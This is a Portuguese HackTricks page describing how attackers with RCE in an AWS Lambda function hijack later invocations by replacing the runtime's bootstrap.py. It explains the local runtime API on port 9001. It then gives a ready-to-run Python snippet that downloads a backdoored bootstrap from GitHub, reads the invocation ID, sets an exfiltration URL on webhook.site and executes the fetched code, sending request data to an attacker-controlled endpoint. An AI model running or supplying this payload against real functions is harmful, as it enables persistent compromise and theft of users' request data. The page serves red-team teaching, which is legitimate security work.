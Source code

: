 # AWS - Roubar Solicitações do Lambda

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Fluxo do Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** é um processo fora do contêiner que **envia** **invocações** para o processo **init**.
2. O processo init escuta na porta **9001** expondo alguns endpoints interessantes:
* **`/2018-06-01/runtime/invocation/next`** – obter o próximo evento de invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retornar a resposta do manipulador para a invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retornar um erro de execução
3. **bootstrap.py** tem um loop recebendo invocações do processo init e chama o código dos usuários para lidar com elas (**`/next`**).
4. Finalmente, **bootstrap.py** envia a **resposta** para o init

Observe que o bootstrap carrega o código do usuário como um módulo, então qualquer execução de código realizada pelo código dos usuários está realmente acontecendo neste processo.

## Roubar Solicitações do Lambda

O objetivo deste ataque é fazer com que o código dos usuários execute um processo malicioso **`bootstrap.py`** dentro do processo **`bootstrap.py`** que manipula a solicitação vulnerável. Dessa forma, o processo **bootstrap malicioso** começará a **conversar com o processo init** para lidar com as solicitações enquanto o **bootstrap legítimo** está **preso** executando o malicioso, então ele não solicitará mais solicitações ao processo init.&#x20;

Esta é uma tarefa simples de ser realizada, pois o código do usuário está sendo executado pelo **`bootstrap.py`** legítimo. Portanto, o atacante poderia:

* **Enviar um resultado falso da invocação atual para o processo init**, para que o init pense que o processo bootstrap está aguardando mais invocações.
* Uma solicitação deve ser enviada para **`/${invoke-id}/response`**&#x20;
* O invoke-id pode ser obtido a partir da pilha do **`bootstrap.py`** legítimo usando o módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [proposto aqui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou apenas solicitando-o novamente para **`/2018-06-01/runtime/invocation/next`** (como [proposto aqui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Executar um **`bootstrap.py`** malicioso que lidará com as próximas invocações
* Para fins de furtividade, é possível enviar os parâmetros de invocações do lambda para um C2 controlado pelo atacante e depois lidar com as solicitações como de costume.
* Para este ataque, é suficiente obter o código original do **`bootstrap.py`** do sistema ou do [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), adicionar o código malicioso e executá-lo a partir da invocação atual do lambda.

### Etapas do Ataque

1. Encontrar uma vulnerabilidade de **RCE**.
2. Gerar um **bootstrap** **malicioso** (por exemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Executar** o bootstrap malicioso.

Você pode facilmente realizar essas ações executando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para mais informações, consulte [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referências

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
